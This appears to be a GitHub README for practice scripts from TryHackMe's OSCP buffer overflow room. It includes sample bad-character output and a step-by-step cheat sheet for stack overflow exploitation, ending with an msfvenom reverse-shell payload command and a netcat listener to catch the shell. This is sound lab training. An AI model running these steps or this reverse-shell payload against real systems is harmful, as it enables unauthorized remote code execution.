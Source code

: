 # TryHackMe_OSCP_BufferOverFlow_Prep

This repo is for two python files used to complete the OSCP BufferOverFlowPrep room from TryHackMe.com

I used the provided script's from THM for the first 4 levels of the room.

I then coded myfuzz.py and myexp.py on my own and for practice.

I also made a quick script, badchars.py to generate string that removes bad characters.

## Example of badchars.py when submitting \x00\x01\x02 as bad chars

notice the output starts at \x03 skipping over the bad chars

    python3 badchars.py

    Enter badchars, example \x00\xae\x24: \x00\x01\x02

    \x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f
    \x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c
    \x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29
    \x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36
    \x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43
    \x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50
    \x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d
    \x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a
    \x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77
    \x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84
    \x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91
    \x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e
    \x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
    \xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8
    \xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5
    \xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2
    \xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
    \xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec
    \xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9
    \xfa\xfb\xfc\xfd\xfe\xff


## Cheat Sheet Steps for BOF exploitation

- config mona in Immunity Debugger
  - !mona config -set workingfolder c:\mona\%p
- fuzz to find crash point with myfuzz.py
- generate pattern to find EIP offset
  - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (fuzzing break point)
- put character pattern "payload" in myexp.py
- find eip offset
  - !mona findmsp -distance (fuzzing break point)
- add offset to myexp.py and RETN with "BBBB" eip should have "42424242" to verify we've overwritten EIP
- check bad chars
  - create char list for mona !mona bytearray -b "\x00"
  - create local list with badchars.py
  - put badchars.py output in myexp.py payload then run
- check bad chars in mona with esp address 
  - !mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
- find jmp esp - !mona jmp -r esp -cpb "(found bad chars)"
- generate shell code with msfvenom 
  - msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "(found bad chars)" -f c
- Add NOP sled to prepend in myexp.py 
  - prepend = "\x90" * 16 in myexp.py
- Start Netcat Listener for port usesd in msfvenom
- Send the exploit by running myexp.py one last time and catch the shell.
